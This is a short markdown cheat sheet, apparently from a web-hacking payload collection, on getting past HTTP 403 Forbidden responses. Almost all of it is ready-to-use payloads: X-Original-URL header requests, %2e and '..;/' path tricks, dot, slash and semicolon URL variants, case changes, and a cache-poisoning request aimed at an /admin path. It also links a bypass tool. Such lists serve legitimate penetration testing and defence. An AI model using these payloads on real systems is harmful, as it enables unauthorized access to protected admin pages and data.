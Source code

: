 # 403 Forbidden Bypass

## Tools

* [Bypass-403 | Go script for bypassing 403 forbidden](https://github.com/daffainfo/bypass-403)


## Exploit
1. Using "X-Original-URL" header
```
GET /admin HTTP/1.1
Host: target.com
```
Try this to bypass
```
GET /anything HTTP/1.1
Host: target.com
X-Original-URL: /admin
```

2. Appending **%2e** after the first slash
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/%2e/admin => 200
```

3. Try add dot (.) slash (/) and semicolon (;) in the URL
```
http://target.com/admin => 403
```
Try this to bypass
```
http://target.com/secret/. => 200
http://target.com//secret// => 200
http://target.com/./secret/.. => 200
http://target.com/;/secret => 200
http://target.com/.;/secret => 200
http://target.com//;//secret => 200
```

4. Add "..;/" after the directory name
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/admin..;/
```


5. Try to uppercase the alphabet in the url
```
http://target.com/admin
```
Try this to bypass
```
http://target.com/aDmIN
```

6. Via Web Cache Poisoning
```
GET /anything HTTP/1.1
Host: victim.com
X­-Original-­URL: /admin
```

Source: 
- [@iam_j0ker](https://twitter.com/iam_j0ker)
- [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-web)

